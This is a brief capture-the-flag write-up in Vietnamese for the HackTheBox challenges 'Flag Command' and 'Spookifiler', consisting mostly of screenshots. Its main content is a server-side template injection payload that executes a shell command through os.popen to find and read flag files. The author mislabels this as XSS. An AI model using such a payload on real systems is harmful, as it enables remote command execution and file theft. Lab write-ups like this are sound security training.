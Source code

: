 # HackTheBox
Clearrrrrr

## **Flag Command**

![image](https://github.com/user-attachments/assets/b2be85b8-d16f-4386-96a0-5ea0247667aa)


## **Spookifiler**

  Bài nhập ta thấy web in ra thông tin mà người dùng nhập vào, ý tưởng XSS

![image](https://github.com/user-attachments/assets/f745f97f-2d46-43df-b118-51cb769474a3)

Vậy là XSS hoạt động, ta tiếp tục injection: 
>${self.module.cache.util.os.popen('find / -type f -name "flag.txt" -exec cat {} \;').read()}

![image](https://github.com/user-attachments/assets/4a4bf63a-4b92-48f8-a624-43b6b9702e9b)


